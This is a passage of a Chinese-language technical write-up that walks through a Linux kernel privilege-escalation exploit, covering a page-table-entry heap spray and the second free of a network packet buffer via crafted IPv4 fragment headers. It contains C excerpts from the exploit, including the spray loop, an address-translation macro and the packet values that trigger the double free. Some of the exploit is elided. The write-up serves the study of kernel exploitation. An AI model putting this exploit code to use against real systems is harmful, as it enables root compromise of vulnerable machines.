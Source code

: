 ```c
	{
		PRINTF_VERBOSE("[*] freeing reserved udp packets to mask corrupted packet... (%d/%d)\n", i, CONFIG_SKB_SPRAY_AMOUNT);
		recv_ipv4_udp(1);
	}

    // ... (rest of the exploit)
}
```

##### （4）堆喷PTE

**堆喷PTE方法**：直接写之前注册的VMA中的虚拟内存页，即可堆喷PTE。注意，一个PTE页包含512个页，也即`0x20'0000`字节（`512*4096`）。因此，我们每隔`0x20'0000`字节访问一次，总共访问`CONFIG_PTE_SPRAY_AMOUNT`次，即可堆喷16000个PTE页。

**实现页表索引转化为虚拟地址**：根据页表索引值恢复其虚拟地址，实现为`PTI_TO_VIRT`宏。即`mm->pgd[pud_nr][pmd_nr][pte_nr][page_nr]`对应的虚拟内存页是`PTI_TO_VIRT(pud_nr, pmd_nr, pte_nr, page_nr, 0)`，例如，`mm->pgd[1][0][0][0]`对应虚拟内存页`0x80'0000'0000`。

```c
#define _pte_index_to_virt(i) (i << 12)
#define _pmd_index_to_virt(i) (i << 21)
#define _pud_index_to_virt(i) (i << 30)
#define _pgd_index_to_virt(i) (i << 39)
#define PTI_TO_VIRT(pud_index, pmd_index, pte_index, page_index, byte_index) \
	((void*)(_pgd_index_to_virt((unsigned long long)(pud_index)) + _pud_index_to_virt((unsigned long long)(pmd_index)) + \
	_pmd_index_to_virt((unsigned long long)(pte_index)) + _pte_index_to_virt((unsigned long long)(page_index)) + (unsigned long long)(byte_index)))


static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (spray-free skb's)

// 1-4. 堆喷16000个PTE页，耗尽PCP order-0 list
	printf("[*] spraying %d pte's...\n", CONFIG_PTE_SPRAY_AMOUNT);
	for (unsigned long long i=0; i < CONFIG_PTE_SPRAY_AMOUNT; i++) 		// 堆喷 PTE
		*(char*)PTI_TO_VIRT(2, 0, i, 0, 0) = 0x41;
     
    // ... (rest of the exploit)
}
```

##### （5）触发Double-Free-第2次释放

**目标**：我们之前耗尽了PCP list，并在第1次释放漏洞对象后喷射了很多PTE。现在**进行第2次释放，并分配重叠的PMD**。

需精心构造IP头，来规避IPv4分片队列代码中的某些检查。具体参见第2或4章节。

```c
// privesc_flh_bypass_no_time() —— 触发第2次释放
static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (spray-alloc PTEs)

	PRINTF_VERBOSE("[*] double-freeing skb...\n");

// 1-5. 2nd Double-Free skb (包长度应该为16，但这里设置为0，触发错误来释放skb)
	df_ip_header.ip_id = 0x1337;
	df_ip_header.ip_len = sizeof(struct ip)*2 + 32768 + 24;
	df_ip_header.ip_off = ntohs(((32768 + 8) >> 3) | 0x2000);
	
	// set_freepointer()函数会将 skb1->len 覆写为 s->random()，需用一定技巧来释放队列，避免访问skb1->len
	// 使得ip_frag_queue()中的 end == offset, 这样就会清空packet（立刻释放，不会产生sleep）
	alloc_intermed_buf_hdr(0, &df_ip_header);

```